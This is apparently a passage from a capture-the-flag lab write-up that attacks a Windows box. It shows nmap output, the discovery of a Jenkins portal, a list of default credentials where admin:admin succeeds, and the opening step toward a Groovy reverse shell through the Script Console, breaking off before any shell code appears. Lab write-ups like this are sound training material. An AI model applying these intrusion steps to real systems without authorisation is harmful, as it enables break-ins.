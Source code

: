 ```shell
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -8s, deviation: 0s, median: -8s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.98 seconds
```

Examining the results of our nmap scan, we can see that the ports 80 HTTP with Microsoft IIS, 3389 with RDP and 8080 with Jetty are open.

### Web Enumeration
We didnt find anything interesting when visiting port 80, just an email address.

But visiting port 8080 we found a Jenkins login portal:

```shell
http://10.10.58.177:8080/
```

### Accessing Jenkins with default credentials

We can try some default passwords to log in:

```shell
admin:password
admin:admin
root:password
root:root
jenkins:password
jenkins:jenkins
admin:jenkins
```

The combination admin:admin was successful and we got access into Jenkins.

# Foothold
### Groovy Reverse Shell on Jenkins to get access
Once we got access, we can try using a Groovy Reverse Shell to get shell access:

```shell
# Access Script Console
Go to -> Manage Jenkins -> Script Console

# We will get to that URL
http://10.10.58.177:8080/script
```
